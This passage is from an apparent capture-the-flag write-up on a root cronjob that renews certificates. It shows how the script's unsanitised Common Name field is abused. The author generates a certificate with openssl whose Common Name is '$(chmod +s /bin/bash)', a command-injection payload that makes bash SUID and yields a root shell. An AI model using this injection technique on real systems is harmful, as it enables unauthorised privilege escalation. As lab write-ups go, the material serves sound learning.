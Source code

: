 ```bash
    $emailAddress
    " 2>/dev/null

    /bin/bash -c "mv /tmp/temp.crt /home/bill/Certs/$commonName.crt"
else
    echo "File doesn't exist"
    exit 1;
fi
```

This could potentially be a cronjob that is running, so I downloaded and ran `pspy64` to make sure. We would see the root user running this:

```bash
/bin/bash -c /opt/renew_cert.sh /home/bill/Certs/broscience.crt
```

Very obviously, the `commonName` parameter is where we would store our payload to become root. We can use `openssl` to generate a quick cert to exploit this and create an SUID bash binary. We can leave all the other parameters blank except for the Common Name.&#x20;

```
bill@broscience:~/Certs$ openssl req -x509 -sha256 -nodes -newkey rsa:4096 -keyout broscience.key -out broscience.crt
Generating a RSA private key
.....................................................................................++++
....................++++
writing new private key to 'broscience.key'
-----
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:
State or Province Name (full name) [Some-State]:
Locality Name (eg, city) []:
Organization Name (eg, company) [Internet Widgits Pty Ltd]:
Organizational Unit Name (eg, section) []:
Common Name (e.g. server FQDN or YOUR name) []:$(chmod +s /bin/bash)
Email Address []:
```

After a while, it would execute and allow us to spawn in a root shell.

<figure><img src="../../../.gitbook/assets/image (33).png" alt=""><figcaption></figcaption></figure>
